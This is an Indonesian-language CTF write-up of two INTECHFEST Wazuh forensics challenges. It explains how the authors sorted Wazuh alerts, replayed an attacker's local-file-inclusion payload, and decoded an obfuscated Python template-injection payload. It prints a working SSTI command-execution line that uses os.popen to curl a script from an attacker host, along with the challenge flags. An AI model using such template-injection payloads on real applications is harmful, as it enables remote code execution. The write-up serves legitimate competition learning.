








# Forensic

<!-- challenge-index: fcfd4afdd6165579 -->

| Challenge | Topic |
| --- | --- |
| [VWA-WAZUH: The Spectator (100 pts)](#vwa-wazuh-the-spectator-100-pts) | Wazuh, Log Analysis |
| [VWA-WAZUH: The Overseer (436 pts)](#vwa-wazuh-the-overseer-100-pts) | Wazuh, Template Injection |
| [Breached (496 pts)🥈](/notes/research/2023/analyzing-cve-2021-22204-based-on-network-traffic-pcap-file/) | PCAP, TLS Decryption |

<!-- /challenge-index -->

## VWA-WAZUH: The Spectator (100 pts)

### Description

\-

### Solution

Akses wazuh, lalu buka security events dan urutkan berdasarkan level. Berdasarkan referensi dari <https://documentation.wazuh.com/current/user-manual/ruleset/rules-classification.html> diketahui bahwa semakin tinggi level maka semakin tinggi juga kemungkinan berbahayanya. Karena disini berhubungan dengan penyerangan oleh seorang attacker maka lakukan pengecekan terlebih dahulu pada log-log dengan level yang tinggi.

<figure><figcaption></figcaption></figure>

Dapat dilihat ada beberapa alerts, pada “Local file inclusion” klik dan akan tampil payload yang digunakan oleh attacker untuk melancarkan serangan LFI.

<figure><figcaption></figcaption></figure>

Setelah mengetahui payload attacker maka selanjutnya kami akses honey comb lalu pilih fetcher dan masukkan payload tersebut untuk mendapatkan flag

<figure><figcaption></figcaption></figure>

Flag : INTECHFEST{if-you-know-the-path-you-win-a503d7757b28b50b7aeb741d7607b4ec}

## VWA-WAZUH: The Overseer (100 pts)

### Description

\-

### Solution

Akses wazuh, lalu buka security events dan urutkan berdasarkan level. Berdasarkan referensi dari <https://documentation.wazuh.com/current/user-manual/ruleset/rules-classification.html> diketahui bahwa semakin tinggi level maka semakin tinggi juga kemungkinan berbahayanya. Karena disini berhubungan dengan penyerangan oleh seorang attacker maka lakukan pengecekan terlebih dahulu pada log-log dengan level yang tinggi.

<figure><figcaption></figcaption></figure>

Selanjutnya pilih log dengan description “Python SSTI payload detected”

<figure><figcaption></figcaption></figure>

Pada payload yang digunakan (kolom full\_log) terlihat bahwa terdapat %23 yang mana merupakan url encode untuk “#”. Selanjutnya deobfuscate manual, berikut untuk flownya

* Url decode %23 menjadi #
* Translate $\<payload> menjadi bentuk asli dengan cara melakukan echo payload tersebut
* Hasil translate menampilkan bentuk \123 yang mana itu merupakan format nilai octal pada python

Berikut contoh untuk translate $\<payload>

<figure><figcaption></figcaption></figure>

Hasil dari translate sebagai berikut dan ada beberapa part yang salah(minor) karena hasil decode masih valid

<figure><figcaption></figcaption></figure>

Selanjutnya tinggal print saja misal dengan python

<figure><figcaption></figcaption></figure>

Untuk value setelah echo lakukan base64 decode&#x20;

<figure><figcaption></figcaption></figure>

Pc.attacker tidak dapat diakses melalui internet, jadi langkah yang kami lakukan adalah mencoba melakukan curl melalui honeycomb. Salah satu cara yang bisa dilakukan adalah dengan memanfaatkan bug yang sama dengan attacker yaitu menjalankan command tersebut pada target dengan service calculator

```python
cycler.__init__.__globals__.os.popen('curl pc.attacker:8080/lr.sh').read()

```

<figure><figcaption></figcaption></figure>

Flag : INTECHFEST{bash-obfuscation-db326a143a33eef9c7a79e7ec5f4bd09}
